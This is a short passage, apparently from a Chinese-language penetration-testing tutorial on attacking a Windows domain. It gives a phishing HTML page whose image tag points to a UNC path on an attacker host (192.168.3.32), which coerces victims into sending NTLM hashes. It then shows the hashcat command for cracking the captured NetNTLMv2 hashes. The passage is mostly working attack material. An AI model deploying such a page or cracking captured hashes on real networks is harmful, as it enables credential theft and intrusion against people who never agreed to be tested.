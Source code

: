 ## 3.3. 钓鱼页面

这里可能会存在一个问题就是，我平时就不访问域控主机，而且谁闲着没事，使用dir去访问啊，而且域内使用者，都是办公人员，也不会这些操作，所以就需要设置一个钓鱼页面，挂载在内部的web解密中，或者你主动发送给域内主机。

```
<!DOCTYPE html>
<html>
<head>
  <title></title>
</head>
<body>
  <img src="file:///\\192.168.3.32\2">
</body>
</html>
```

## 3.4. 破解密文

但是这里有问题哦，如果虚拟机配置不够是会出现报错的，这个破解可能是需要进行加密计算的，然后比对，所以配置低，可能无法运行那么打的并发吧。看配置是需要4h4g......

```
hashcat -m 5600 hash1 pass2.txt  --show
```

